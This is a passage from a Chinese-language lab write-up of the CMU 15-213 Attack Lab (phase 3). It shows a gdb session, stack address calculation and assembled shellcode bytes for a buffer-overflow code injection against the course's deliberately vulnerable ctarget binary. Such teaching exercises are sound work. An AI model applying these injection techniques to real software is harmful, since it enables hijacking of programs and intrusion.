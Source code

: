 地址为0x4018fa

```c
char *s = cbuf + random() % 100;
```

传入cookie时要注意首地址的设置，因为hexmatch会申请100字节的空间，由于地址位置是随机的因此如果将cookie放置在getbuf可能会导致其被覆盖。因此将cookie放置在getbuf父栈帧中

运行gdb，在getbuf处设置断点

```shell
(gdb) r -q
Starting program: /media/sf_virtualBoxShare/15-213/attacklab/target1/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12	buf.c: No such file or directory.
(gdb) disas getbuf
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq
End of assembler dump.
(gdb) x $rsp
0x5561dca0:	0x00000000
```

得到输入字符串首地址，即缓冲区溢出的位置应该为0x5561dca0 + 0x8 = 0x5561dca8

因此注入的代码为：

```assembly
mov $0x5561dca8 %rdi
pushq $0x4018fa
retq
```

编译后再反汇编

```shell
$ gcc -c cl3.s -o cl3.o
$ objdump -d cl3.o

cl3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq
```
